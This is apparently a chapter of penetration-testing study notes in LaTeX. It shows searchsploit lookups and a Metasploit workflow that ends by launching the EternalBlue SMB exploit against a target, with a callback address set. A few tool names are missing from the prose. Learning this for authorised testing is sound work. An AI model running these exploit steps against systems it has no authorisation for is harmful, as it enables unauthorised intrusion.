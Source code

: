 \chapter{Vulnerability Assessment}
\label{ch:vuln_assessment}

Vulnerability assessment is about connecting what I found during enumeration to
known weaknesses. The question shifts from ``what is running?'' to ``is this
version exploitable, and how?''

\section{Searchsploit --- Local Exploit Database}
\label{sec:searchsploit}

 queries the local copy of Exploit-DB, which comes installed
with Kali. It works offline and is faster than googling.

\begin{termbox}
# Search for SMB exploits
searchsploit "Microsoft Windows SMB" | grep -e "Metasploit"

# Search for a specific application version
searchsploit "Apache Tomcat/Coyote JSP engine 1.1"

# Get detailed info about a specific exploit
searchsploit -x path/to/exploit.rb
\end{termbox}

\begin{whybox}
Cross-referencing service versions found during enumeration against searchsploit
is often how you find your entry point. A version number from  maps
directly to a CVE that maps directly to a Metasploit module.
\end{whybox}

\section{Vulnerability Scanning with Metasploit}
\label{sec:msf_vuln_scan}

\begin{termbox}
# Standard workflow (uses db_nmap results)
service postgresql start && msfconsole
workspace -a vuln_scan
setg RHOSTS target_ip
db_nmap -sS -sV target_ip

# Search for exploits matching a specific version
search type:exploit name:vsftpd
search type:exploit name:ProFTPD

# Target a specific CVE year and service
search cve:2017 name:smb

# Use a matched exploit
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOST target_ip
set LHOST my_ip
run
\end{termbox}

